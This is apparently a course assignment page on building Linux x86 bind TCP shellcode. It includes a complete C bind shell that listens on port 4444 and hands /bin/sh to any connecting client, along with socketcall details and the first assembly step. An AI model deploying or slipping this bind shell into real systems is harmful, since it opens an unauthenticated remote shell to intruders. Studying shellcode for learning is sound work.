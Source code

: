 ```yaml
---
title:  Assignment 1
description: Create a Shell Bind TCP shellcode
order: 1
---
```


[&lt;&lt; Go Back]({{ site.baseurl }})


# {{ page.title }}
### {{ page.description }}
___
<div style="text-align:right;direction:ltr;margin-left:1em;"><h6>{{ page.date }}</h6></div>

Before we dive into assembly, let's first write a simple program in c to model the functionality.

```c
/* bind_tcp_model.c
 *  - Bind to a socket, listen for a connection, provide shell.
 */

#include <sys/socket.h>	// socket, AF_INET, SOCK_STREAM
#include <unistd.h>	// dup2
#include <netinet/in.h>	// sockaddr, htons, INADDR_ANY

int main() {
	int port = 4444;
	int sockfd, connfd;
	struct sockaddr_in sockaddr;

	// Build socket

	sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// Bind to socket

	sockaddr.sin_family = AF_INET;
	sockaddr.sin_port = htons(port);
	sockaddr.sin_addr.s_addr = INADDR_ANY;
	bind(sockfd, (struct sockaddr *) &sockaddr, sizeof(sockaddr));

	// Listen on socket

	listen(sockfd, 0);

	// Accept a connection

	connfd = accept(sockfd, 0, 0);

	// Route i/o through connection

	dup2(connfd, 0);
	dup2(connfd, 1);
	dup2(connfd, 2);

	// Execute /bin/sh

	execve("/bin/sh", 0, 0);

	return 0;
}

```

It seems we have 6 syscalls to handle:
- socket
- bind
- listen
- accept
- dup2
- execve

The process for finding the functionality of a syscall generally starts with checking its man page, but interestingly, most of the syscalls related to sockets use the same syscall, passing their *call* parameter to **socketcall**:
```c
int socketcall(int call, unsigned long *args);
```

We can then find the appropriate *call* parameter for each of our syscalls:
```bash
> grep SYS_ /usr/include/linux/net.h

#define SYS_SOCKET	1		/* sys_socket(2)		*/
#define SYS_BIND	2		/* sys_bind(2)			*/
#define SYS_CONNECT	3		/* sys_connect(2)		*/
#define SYS_LISTEN	4		/* sys_listen(2)		*/
#define SYS_ACCEPT	5		/* sys_accept(2)		*/
...
```

For our first syscall, creating a socket, we'll need to use SYS_SOCKET, **1**, which we know from our c model takes the following form:
```c
int socket(int domain, int type, int protocol);
```

Let's try to put all this down in assembly:

```nasm
        ; int socketcall(int call, unsigned long *args)
        ; int socket(int domain, int type, int protocol)
        ; eax = 0x66 (socketcall)
        ; ebx = 0x1 (socket)
        ; ecx = esp
        ; esp => |0x00000002|0x00000001|0x00000000|
        ;          AF_INET  SOCK_STREAM    null

        push 0x0                ; IPPROTO_IP
        push 0x1                ; SOCK_STREAM
        push 0x2                ; AF_INET
        mov eax, 0x66           ; socketcall, 102
        mov ebx, 0x1            ; socket, 1
        mov ecx, esp            ; args
        int 0x80                ; execute
        mov esi, eax            ; save sockfd
```

As you can see, we filled the stack with the arguments to **socket** and pointed *ecx* to them.  We then filled *eax* with the **socketcall** identifier and *ebx* with the **socket** identifier, finally calling the syscall to execute.  Note we also saved the return value in esi, for future use. 


<br>
{% include preamble.md %}


[&lt;&lt; Go Back]({{ site.baseurl }})
